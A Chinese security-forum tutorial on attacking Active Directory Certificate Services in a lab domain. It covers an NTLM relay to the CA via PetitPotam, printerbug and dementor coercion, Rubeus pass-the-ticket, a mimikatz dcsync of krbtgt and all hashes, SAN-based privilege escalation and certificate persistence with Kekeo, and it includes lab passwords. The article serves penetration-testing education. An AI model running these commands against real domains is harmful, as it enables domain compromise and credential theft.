



# ADCS在内网渗透中的应用 - 先知社区

ADCS在内网渗透中的应用

* * *

## 文章前言

在打攻防演练的时候有时候运气比较好的话会碰到部署了证书服务(AD CS)的内网环境，由于证书服务发布的部分证书可用于Kerberos认证并且在返回的PAC里面能拿到NTLM Hash，由此我们可以进行以下类型的内网攻击尝试

*   身份认证：当我们拿到目标主机的权限后，我们可以在本地检索是否存在相关的证书并用该证书进行域内身份认证
*   权限维持：当我们拿到用户的凭据后，我们可以申请一个证书，由于证书可用于Kerberos认证，所以即便后期用户更改密码，只有证书在手就可以随时拿到NTLM Hash
*   中继攻击：CA证书申请界面是HTTP的，HTTP默认不开签名，故而可以尝试NTLM Relay将请求进行Realy，申请用以进行Kerberos认证的证书
*   配置滥用：部分配置错误导致权限提升

## 企业PKI

PKI(Public Key Infrasturcture,公钥基础结构)是通过使用公钥技术和数字证书来确保系统信息安全并负责验证数字证书持者身份的一种体系，它能够保证数据的完整性、数据的机密性、操作的不可否认性等功能，它的作用是让个人或企业安全地从事其商业活动，本文介绍的Acitvity Directory证书服务(AD CS)正是微软的PKI实现，它能够和现有的AD DS服务结合用于加密文件系统、数字签名、身份验证等功能

## 颁发机构

证书颁发机构(CA)是主要用于验证网站(实名以及实体认证)，他们的目标是使互联网成为组织和用户都更加安全的场所，证书颁发结构在收到证书申请后会根据CA的策略验证申请者的信息，然后使用其私钥将其数字签名应用于证书，然后CA将证书颁发给证书的使用者，此外CA还负责吊销证书和发布证书吊销列表(CRL)  
AD CS中的CA分为企业CA和独立CA，其中最主要的区别在于企业CA与AD DS服务结合，它的信息存储在AD DS数据库里面，同时企业CA也支持证书模板和自动注册证书  
假设我们有一个Al1ex.com的域名，现在要做HTTPS，那么我们就需要找到证书颁发机构去申请证书，当然也可以在本地环境中搭建一个证书颁发机构，不过使用自建的证书发布服务之后，浏览器并不会信任我们的证书，这是因为电脑本身并不相信我们的CA证书，而解决方法就是将我们生成的CA证书添加到Windows内置的CA证书列表中去：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142012-8ab05d34-7c6c-1.png)  
对于企业而言，如果使用AD CS服务，要想让员工的计算机信任我们企业自己的CA证书，可以尝试以下几种方式：

*   计算机不在域内，可以手动导入CA证书
*   安装企业根CA时，使用组策略将其证书传播到域中所有用户和计算机的"受信任的根证书颁发机构"实现证书存储

## 证书注册

### 注册流程

注册流程示意图如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142246-e6acfa5c-7c6c-1.png)  
注册流程简易概述：  
1、客户端生成一个证书申请文件，可以使用openssl生成，也可以使用在线网站：[https://myssl.com/csr\_create.html](https://myssl.com/csr_create.html)

```plain
openssl req -new -SHA256 -newkey rsa:4096 -nodes -keyout www.al1ex.com.key -out www.al1ex.com.csr -subj "/C=CN/ST=Beijing/L=Beijing/O=netstarsec/OU=sec/CN=www.al1ex.com"
```

2、客户端把证书申请文件发送给CA，然后选择一个证书模板进行证书申请  
3、判断模板是否存在，根据模板的信息判断请求的用户是否有权限申请证书，证书模板会决定证书的主题名是什么，证书的有效时间是多久，证书用于干什么，是不是需要证书管理员批准  
4、CA会使用自己的私钥来签署证书

### 注册接口

**方式一：证书注册网页**

使用此功能的条件是AD CS服务器需要安装"证书颁发机构Web"注册角色，在"添加角色和功能向导—>AD证书颁发机构—>Web注册服务"里面开启即可：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142339-061c3c18-7c6d-1.png)  
下面我们简单的演示一下关于"证书注册网页"的使用，这里以IIS为中间媒介进行演示：  
Step 1：在工具栏中打开IIS服务器  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142353-0eba0076-7c6d-1.png)  
Step 2：选择服务器证书  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142409-17f8519c-7c6d-1.png)  
Step 3：进行申请，点开之后选择创建证书申请，填写以下信息  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142421-1f320f84-7c6d-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142433-26a1c192-7c6d-1.png)  
Step 4：点击下一步，直接选择一个路径，创建一个文件，只需输入文件名即可，不需要写入内容  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142447-2efb7dec-7c6d-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142457-349a3f68-7c6d-1.png)  
Step 5：打开文本文档，并复制里面的内容，如下图  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142509-3c439d04-7c6d-1.png)  
Step 6：复制完成后，从shell里面可以看到本机的IP地址为192.168.174.2通过访问并输入主机用户名密码可以得到  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142539-4dbecbd0-7c6d-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142551-551a3d6a-7c6d-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142546-52125ada-7c6d-1.png)  
Step 7：选择申请证书，再选择高级证书申请，选择使用base64编码申请  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142605-5d2082c6-7c6d-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142613-62432538-7c6d-1.png)  
Step 8：将之前文档中复制的所有内容粘贴到文本框中，证书模板选择"WEB服务器"，并提交申请  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142626-69a67654-7c6d-1.png)  
Step 9：此时会出现以下页面  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142637-703a468a-7c6d-1.png)  
Step 10：选择下载证书到本地，然后打开IIS管理器，完成证书申请  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142650-78337744-7c6d-1.png)  
选择完成证书申请，会出现如下面的表格，文件名为刚才保存的文件地址  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142708-83178100-7c6d-1.png)  
此时可以看到服务器证书中多了一个我们添加的站点，如下图  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142723-8c1de276-7c6d-1.png)  
Step 11：查看证书信息如下图  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142735-92d0285e-7c6d-1.png)  
Step 12：之后对HTTPS进行设置，将SSL证书设置为新添加的证书  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142801-a28144f4-7c6d-1.png)  
此时第一次访问会提示如下错误信息，这是由于证书是我们自己生成的，并非互联网上的CA发布，要想正常访问只需导入证书即可：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142812-a95240b2-7c6d-1.png)  
**方式二：certmgr.msc**  
在域内机器中我们可以通过启动certmgr.msc(用于用户证书)或certlm.msc(用于计算机证书)来使用GUI申请证书  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142833-b54dd034-7c6d-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142841-ba3995e2-7c6d-1.png)  
申请流程：  
Step 1：所有任务—>申请新证书  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142858-c480935c-7c6d-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142904-c806aa20-7c6d-1.png)  
Step 2：选择证书注册策略  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142917-cfe79290-7c6d-1.png)  
Step 3：请求证书  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142929-d6d56aa0-7c6d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142938-dc6f5cd2-7c6d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142945-e0cd9f6e-7c6d-1.png)  
Step 4：查看结果  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106142955-e63b76f6-7c6d-1.png)  
**方式三：Powershell**  
域内机器可以通过命令行certreq.exe和Powershell的Get-Certificate来申请证书  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143013-f13f01da-7c6d-1.png)  
在请求证书时我们需要先生成一个证书模板，之后选择证书模板进行新建：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143030-fb35e69a-7c6d-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143024-f7fe2032-7c6d-1.png)

## 内网攻防

### ADCS之中继攻击

#### 漏洞原理

AD CS支持几种基于HTTP协议的通过管理员可以安装的其他AD CS服务器角色功能，这些基于HTTP的证书注册接口都是易受攻击的NTLM中继攻击，一方面是因为没有启用NTLM中继保护，另一方面Authorization HTTP头明确允许通过NTLM进行身份验证，并未使用更安全的协议，例如：Kerberos  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143824-15fbbdf0-7c6f-1.png)  
Authorization头信息：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143836-1d1f144c-7c6f-1.png)

#### 环境说明

域内存在多台主机设备，其中有一台主机上搭建了AD CS证书服务，同时安装基于HTTP协议的AD CS服务器角色功能，例如：证书注册策略Web服务等，这些Web服务采用NTLM的方式进行身份认证，此时攻击者可以通过利用打印机漏洞使得域内DC主机向攻击者主机进行强制认证，之后攻击者窃取域控主机的NTLM身份认证信息并申请证书，由于部分证书(用户/计算机)可以用于Kerberos认证，导致攻击者可以将获取到的证书导入任意域内主机，实现对目标域控的直接访问

#### 网络拓扑

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143909-307fa8b2-7c6f-1.png)

#### 漏洞利用

Step 1：域内定位CA机器

```plain
certutil -config - -ping
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144103-7474a716-7c6f-1.png)  
Step 2：安装新版本的Impacket(旧版本没有AD CS命令)  
[https://github.com/ExAndroidDev/impacket/tree/ntlmrelayx-adcs-attack](https://github.com/ExAndroidDev/impacket/tree/ntlmrelayx-adcs-attack)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144115-7be69860-7c6f-1.png)

```plain
python3 -m pip install .
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144139-8a4f5676-7c6f-1.png)  
Step 3：攻击机器开启本地监听并将证书颁发机构(CA)设置为目标，即目标DC 192.168.174.2

```plain
#格式：
python3 ntlmrelayx.py -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs 

#示例：
python3 ntlmrelayx.py -t http://192.168.174.160/certsrv/certfnsh.asp -smb2support --adcs
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144203-989bf14e-7c6f-1.png)  
Step 4：利用打印机服务漏洞强制认证  
a、使用printerbug  
[https://github.com/dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx)

```plain
#格式：
python printerbug.py domain/username:password@<targetName or Address> <hostname to connect to>

#示例:
python3 printerbug.py hacke/testuser:'test@123'@dc.hacke.testlab 192.168.174.129
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144227-a6b291fc-7c6f-1.png)  
成功获取到证书数据信息：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144250-b4447d62-7c6f-1.png)  
b、使用dementor.py脚本  
[https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

```plain
#格式：
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>

#示例：
python3 dementor.py -d hacke.testlab -u Al1ex -p 'Kksvqm@123' 192.168.174.129 192.168.174.2
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144314-c2966826-7c6f-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144339-d17aaae6-7c6f-1.png)  
之后获取到用户的证书信息：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144358-dd3c31f6-7c6f-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144413-e5c16242-7c6f-1.png)  
c、使用Petitpotam.py脚本  
[https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam)

```plain
#格式：
python Petitpotam.py -d domain -u username -p password <RESPONDERIP> <TARGET>

#示例：
python3 PetitPotam.py -d hacke.testlab -u Al1ex -p 'Kksvqm@123' 192.168.174.129 192.168.174.160
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144434-f220025a-7c6f-1.png)  
之后成功得到证书信息：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144451-fcc0a3fe-7c6f-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144503-03a8b6fc-7c70-1.png)  
Step 6：在域内主机Win08-Server上使用普通域用户登录并访问域控  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144513-09649340-7c70-1.png)  
Step 7：利用上面获取到的证书，获取TGT并注入

```plain
#格式：
Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt

#示例：
Rubeus.exe asktgt /user:DC$ /certificate:打印出来的base64证书数据 /ptt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144538-18a1b05e-7c70-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144546-1d406466-7c70-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144555-22d82184-7c70-1.png)  
Step 8：再次访问域控  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144612-2cb434cc-7c70-1.png)  
查看票据信息：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144627-35bdf800-7c70-1.png)  
Step 9：之后可以利用mimikatz，进行导出hash

```plain
KERBEROS::List 
lsadump::dcsync /user:krbtgt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144647-41ab8a2e-7c70-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144705-4c999caa-7c70-1.png)  
或者使用以下命令：

```plain
lsadump::dcsync /all /csv
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106144722-56ce1f16-7c70-1.png)

#### 防御措施

*   开启SSL认证
*   开启NTML中继保护

### ADCS之权限提升

#### 基本原理

在证书模板中，应用程序的策略如果包含以下策略之一则会具备Kerberos认证能力：

```plain
#客户端认证
Client Authentication （OID 1.3.6.1.5.5.7.3.2）

#PKINIT客户端身份验证  
PKINIT Client Authentication （1.3.6.1.5.2.3.4）

#智能卡登录
Smart Card Logon （OID 1.3.6.1.4.1.311.20.2.2）

#任何目的
Any Purpose （OID 2.5.29.37.0）
```

如果请求者可以在CSR中指定SAN，则请求者可以作为任何人(例如:域管理员用户)请求证书，证书模板的AD对象指定请求者是否可以在其mspki证书名称标志属性中指定SAN，mspki certificate name flag属性是位掩码，如果存在CT\_flag\_Enrolleee\_SUPPLIES\_SUBJECT标志，则请求者可以指定SAN，该选项在certtmpl.msc的"主题名称"选项卡中显示为"请求中提供"，而SAN允许我们使用UPN来指定用户，从而实现用户模拟的目的，进而实现权限提升

#### 利用条件

*   企业CA授予低级用户注册权限：企业CA的配置必须允许低特权用户请求证书
*   CA证书无需授权签名：此设置要求任何CSR都由现有授权证书签名
*   CA证书管理程序批准已禁用：此设置会要求具有证书管理器权限的用户在颁发证书之前审查和批准请求的证书
*   证书模板允许请求者在CSR中指定subjectAltName(SAN)
*   证书模板定义了启用身份验证的EKU
*   客户端身份验证(OID 1.3.6.1.5.5.7.3.2)
*   PKINIT客户端身份验证(1.3.6.1.5.2.3.4)
*   智能卡登录(OID 1.3.6.1.4.1.311.20.2.2)
*   任何用途(OID 2.5.29.37.0)或无EKUSUBA)

#### 漏洞利用

**证书申请**  
Step 1：打开证书管理工具

```plain
certmgr
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106145031-c6f72fd0-7c70-1.png)  
Step 2：申请证书  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106145041-cd5b618e-7c70-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106145049-d21c93e6-7c70-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106145058-d7253960-7c70-1.png)  
Step 3：配置证书(这里以域管为例)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106145110-de6c4114-7c70-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106145123-e632f9a6-7c70-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106145132-eb411ba8-7c70-1.png)  
Step 4：生成证书如下  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106145142-f1beb22e-7c70-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106145150-f68a64c4-7c70-1.png)  
**权限提升**  
Step 1：查看本地计算机的证书

```plain
certutil -user -store My
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106145215-052a9d0a-7c71-1.png)  
Step 2：使用证书的Hash将证书其导出

```plain
certutil -user -exportPFX f7bf99c86db5107e540c75055b17c2ddacbccb1a ADM.pfx
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106145234-106c2328-7c71-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106145243-15da36ec-7c71-1.png)  
Step 3：尝试访问域控  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106145258-1ea9e718-7c71-1.png)  
Step 4：利用Rubeus请求票证，并将生成的票证用于PTT

```plain
Rubeus.exe asktgt /user:administrator /certificate:ADM.pfx /password:123456 /ptt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106145319-2b8f576a-7c71-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106145327-304713a6-7c71-1.png)  
Step 5：查看本地缓存的票证

```plain
klist
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106145349-3d2d4aea-7c71-1.png)  
Step 6：再次访问域控，成功获取到域控的权限  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106145403-45c085be-7c71-1.png)

### ADCS之权限维持

#### 基本原理

在微软的文档里有一段话"当使用PKCA时，KDC在权限属性证书(PAC)中会返回用户的NTLM"，也就是说当使用证书进行Kerberos认证的时候，返回票据的PAC包里面还有NTLM票据，故可以用于获取用户NTLM Hash  
[https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-pkca/4e5fb325-eabc-4fac-a0da-af2b6b4430cb](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pkca/4e5fb325-eabc-4fac-a0da-af2b6b4430cb)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143230-4303bcc2-7c6e-1.png)  
如果我们控制的目标主机中存在企业CA，则用户(或计算机)可以请求注册任何可用模板的证书，在用户凭证被盗时，我们可以请求一个模板证书，该模板允许我们作为该用户(或机器)向Active Directory进行身份验证，由于证书是独立的身份验证材料，即使用户(或计算机)重置了密码，这些证书仍然可用~

#### 漏洞利用

下面我们用一个案例来说明：  
Step 1：控制域内一台主机，发现里面有个用户的证书  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143326-642f60a4-7c6e-1.png)  
Step 2：查看可用证书

```plain
certutil -user -store My
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143345-6fbe9124-7c6e-1.png)  
Step 3：使用certutil导出证书(如果导出不了的话，就用mimikatz来导出证书)

```plain
certutil -user -exportPFX f418dede290437696deeb6f53f099f1b58c918fb c:\Users\Al1ex.HACKE\Desktop\Al1ex.pfx
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143407-7c8d5340-7c6e-1.png)  
Step 4：然后把pfx文件拷贝到我们自己的计算机，双击导入，输入刚刚我们输的密码  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143419-83e83dbc-7c6e-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143431-8b1f0462-7c6e-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143442-91858592-7c6e-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143451-971d2848-7c6e-1.png)  
Step 5：然后在我们本地的计算机做个代理进内网，并且把DNS也代理进去(dns设置为内网的域控)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143507-a04fe02c-7c6e-1.png)  
Step 6：使用Kekeo获取用户的NTLM

```plain
tgt::pac /subject:Al1ex /castore:current_user /domain:hacke.testlab
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143531-ae8706fc-7c6e-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143539-b3bc71ca-7c6e-1.png)  
Step 7：修改用户密码——Kksvqm@123  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143559-bf6836c6-7c6e-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143607-c43490a0-7c6e-1.png)  
Step 8：使用之前的证书依旧可以窃取的用户的NTLM Hash

```plain
tgt::pac /subject:Al1ex /castore:current_user /domain:hacke.testlab
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143631-d281137c-7c6e-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231106143643-d9b2aade-7c6e-1.png)
